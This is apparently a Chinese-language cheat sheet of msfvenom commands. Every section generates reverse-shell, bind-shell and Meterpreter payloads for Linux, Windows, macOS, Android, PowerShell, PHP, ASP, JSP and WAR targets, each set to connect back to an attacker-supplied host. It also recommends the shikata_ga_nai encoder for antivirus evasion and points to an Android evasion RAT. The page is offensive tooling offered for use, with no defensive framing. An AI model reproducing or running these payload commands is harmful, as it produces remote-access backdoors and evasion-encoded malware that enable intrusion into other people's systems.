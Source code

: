 ## 各种平台payload生成

~~~markdown
Linux
	msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
	msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST= LPORT=1122 -a x86 --platform Linux -f elf > shell.elf
Windows
	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
	msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST= LPORT=1122 -f exe > shell.exe
Mac
	msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
Android
	msfvenom -a dalvik -p android/meterpreter/reverse_tcp LHOST= LPORT=1122 -f raw > shell.apk
	msfvenom -p android/meterpreter/reverse_tcp LHOST= LPORT=1122 R > test.apk

安卓免杀 rat yutube
~~~



~~~~
查看windows/meterpreter/reverse_tcp支持什么平台、哪些选项，可以使用msfvenom -p windows/meterpreter/reverse_tcp --list-options

msfvenom --list payloads可查看所有payloads

msfvenom --list encoders可查看所有编码器
评级最高的两个encoder为cmd/powershell_base64和x86/shikata_ga_nai，其中x86/shikata_ga_nai也是免杀中使用频率最高的一个编码器

类似可用msfvenom --list命令查看的还有payloads, encoders, nops, platforms, archs, encrypt, formats
~~~~

## 生成payload

~~~~markdown
Powershell
    msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST= LPORT=1122 -e cmd/powershell_base64 -i 3 -f raw -o shell.ps1
Netcat
nc正向连接
    msfvenom -p windows/shell_hidden_bind_tcp LHOST= LPORT=1122  -f exe> 1.exe
nc反向连接，监听
    msfvenom -p windows/shell_reverse_tcp LHOST= LPORT=1122  -f exe> 1.exe

PHP
msfvenom -p php/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
ASP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
JSP
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
WAR
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war

~~~~

